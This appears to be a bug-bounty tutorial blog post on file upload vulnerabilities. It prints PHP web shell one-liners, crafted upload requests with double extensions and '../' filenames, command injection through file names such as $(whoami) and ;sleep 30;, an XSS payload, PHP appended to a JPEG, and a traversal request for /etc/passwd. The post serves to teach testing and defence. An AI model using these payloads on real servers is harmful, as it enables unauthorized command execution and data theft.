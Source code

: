 ```yaml
---
title: <img width="50" height="50" alt="img" src="https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/72322038-9495-47ba-bf30-0caa7c1a7968"> File Upload Vulnerabilities 🗃️ 
date: 2024-01-16 07:00:02 +730
categories: [Resources, bugbounty]
tags: [fileupload-vulnerability,bug-bounty,100-days-of-cybersecurity] # TAG names should always be lowercase
mermaid: true

---
```



<!-- <h1 style="color: cyan; text-align: center">100 Day's Of Cybersecurity - Day 16</h1> -->


![File-Upload-Vulnerability-2760290964](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/72322038-9495-47ba-bf30-0caa7c1a7968){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }





# 1. Unrestricted File Type Upload:


Allowing users to upload files without proper validation can lead to the execution of malicious scripts. An attacker may upload a file with a double extension, such as "malicious.php.jpg," tricking the system into treating it as an image file while executing PHP code.

**Example Payloads:**
```php
<?php echo passthru($_GET['cmd']); ?>
```

```php
<?php echo exec($_POST['cmd']); ?>
```
```php
<?php system($_GET['cmd']); ?>
```
```php
<?php passthru($_REQUEST['cmd']); ?>
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="malicious.php.jpg"
Content-Type: image/jpeg

...binary data of the image...
```

# 2. File Size Limit Bypass:


Attackers can attempt to bypass file size restrictions by compressing files or splitting them into smaller parts. This may allow them to upload content exceeding the specified limits.

**Example Payload:**
```bash
# Splitting a file into parts
split -b 1M largefile.txt part
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="part1"
Content-Type: text/plain

...binary data of part 1...

POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="part2"
Content-Type: text/plain

...binary data of part 2...
```

# 3. Malicious File Content:


Attackers may manipulate file content to include malicious scripts or payloads, exploiting vulnerabilities in server-side processing.

**Example Payload:**
```html
<script>alert('XSS Attack');</script>
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="malicious.html"
Content-Type: text/html

<script>alert('XSS Attack');</script>
```

# 4. Path Traversal Attacks:


Path traversal vulnerabilities may allow attackers to upload files outside the intended directory, potentially gaining unauthorized access to sensitive information.

> The restrication may not be in the previous directory ! 😜 


**Example Payload:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="../sensitivefile.txt"
Content-Type: text/plain

...binary data of the file...
```

# Remote Command Execution (RCE) via File Name Parameter

If the application includes custom image processing or file manipulation, it may be susceptible to remote command execution through code injection in the file name.

## Example Valid File Names and Payloads:

| File Name            | Payload        | Outcome if Vulnerable  |
|----------------------|----------------|------------------------|
| a$(whoami)z.jpg      | $(whoami)      | a[CURRENT USER]z.jpg   |
| a\`whoami\`z.jpg     | \`whoami\`     | a[CURRENT USER]z.jpg   |
| a;sleep 30;z.jpg     | ;sleep 30;     | The application will take 30+ seconds to respond |



# 5. Denial of Service (DoS) through File Uploads:


Attackers may overwhelm the server by uploading a large number of files simultaneously.

**Example Payload:**
```bash
# Generating a large file
dd if=/dev/zero of=largefile.txt bs=1M count=100
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="largefile.txt"
Content-Type: application/octet-stream

...binary data of the large file...
```

# 6. Image-Based Attacks (Polyglot):


Exploiting vulnerabilities in image processing libraries to execute arbitrary code.

<iframe width="560" height="315" src="https://www.youtube.com/embed/uGk5_yDbSeQ?si=BKDXh1Xh7H_pMhkb" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

> simple way to achive this is using exiftool and embed the php webshell via comeents
{: .prompt-info }


**Example Payload (Image with Embedded Malicious Code):**
```bash
# Embedding malicious code in an image
echo -n '<?php system("ls -la"); ?>' >> malicious.jpg
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="malicious.jpg"
Content-Type: image/jpeg

...binary data of the image...
```

# 7. Insecure Direct Object References (IDOR):

**Vulnerability Description:**
File upload functionalities may introduce IDOR vulnerabilities, allowing attackers to manipulate file references.

**Example Payload:**
```http
GET /download?file=../../../etc/passwd HTTP/1.1
```

In this case, an attacker manipulates the file parameter to access sensitive files.

These examples illustrate the technical aspects of common file upload vulnerabilities and highlight the importance of implementing robust security measures to protect against them. Always validate, sanitize, and restrict file uploads to ensure the integrity and security of your web application.



![](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)

